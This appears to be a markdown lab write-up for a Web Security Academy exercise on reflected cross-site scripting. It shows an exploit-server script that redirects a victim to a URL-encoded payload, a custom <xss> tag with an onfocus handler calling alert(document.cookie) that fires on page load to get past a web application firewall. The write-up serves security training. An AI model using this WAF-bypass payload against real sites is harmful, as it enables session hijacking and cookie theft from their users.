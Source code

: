 ## 🧪 Lab: Creating a Custom XSS Tag to Bypass WAF

This lab demonstrates how to create an XSS attack using a custom tag to bypass a web application firewall (WAF) and execute a payload.

> **Note:** The solution must not require user interaction. The payload should execute automatically when the page loads.

---

### Steps:

1. Navigate to the exploit server and insert the following code, replacing `YOUR-LAB-ID` with your lab identifier:

    ```html
    <script>
    location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
    </script>
    ```

    ![image](https://github.com/user-attachments/assets/008ac350-3bfb-45b3-98ff-71d8fa93c86a)

2. Click **Store** and then **Deliver exploit to victim**.

This injection creates a custom tag with the ID `x`, containing an `onfocus` event handler that triggers the `alert()` function. The hash at the end of the URL automatically focuses on this element when the page loads, causing the payload to execute.
